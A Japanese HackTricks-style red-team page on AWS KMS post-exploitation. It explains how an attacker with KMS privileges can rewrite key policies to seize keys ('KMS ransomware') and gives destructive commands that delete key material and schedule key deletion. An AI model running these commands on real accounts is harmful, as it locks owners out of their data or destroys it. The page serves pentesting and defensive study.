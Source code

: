 # AWS - KMSポストエクスプロイテーション

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する
- **HackTricks**および**HackTricks Cloud**のgithubリポジトリにPRを提出して、**あなたのハッキングテクニックを共有**する

</details>

## KMS

詳細については、以下をチェックしてください：

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 情報の暗号化/復号化

* **対称**キーを使用
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **非対称**キーを使用する:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMSランサムウェア

KMSへの特権アクセスを持つ攻撃者は、キーのKMSポリシーを変更し、**自分のアカウントにアクセス権限を付与**して、正規のアカウントに付与されたアクセス権限を削除することができます。

その後、正規のアカウントのユーザーは、それらのキーで暗号化されたサービスの情報にアクセスできなくなり、アカウント上で簡単かつ効果的なランサムウェアが作成されます。

{% hint style="warning" %}
AWSが管理するキーはこの攻撃の影響を受けませんが、**顧客管理キー**は影響を受けます。

また、Webコンソールにこのオプションがないため、この攻撃はCLIからのみ可能であることに注意してください。必要なパラメータは **`--bypass-policy-lockout-safety-check`** です。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
そのポリシーを変更して外部アカウントにのみアクセス権を与え、その外部アカウントから元のアカウントにアクセス権を戻す新しいポリシーを設定しようとしても、それはできません。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### 一般的なKMSランサムウェア

#### グローバルKMSランサムウェア

別の方法でグローバルKMSランサムウェアを実行する方法があります。これには次の手順が含まれます：

* 攻撃者によってインポートされたキー素材を持つ新しいキーを作成します。
* 以前のバージョンで暗号化された古いデータを新しいもので再暗号化します。
* KMSキーを削除します。
* 今後、元のキー素材を持つ攻撃者だけが暗号化されたデータを復号化できるようになります。

### キーの破壊
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWSは今、**クロスアカウントからの以前のアクションを防止**しています。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を使用して、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や、**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手してください
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください
- **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください

</details>
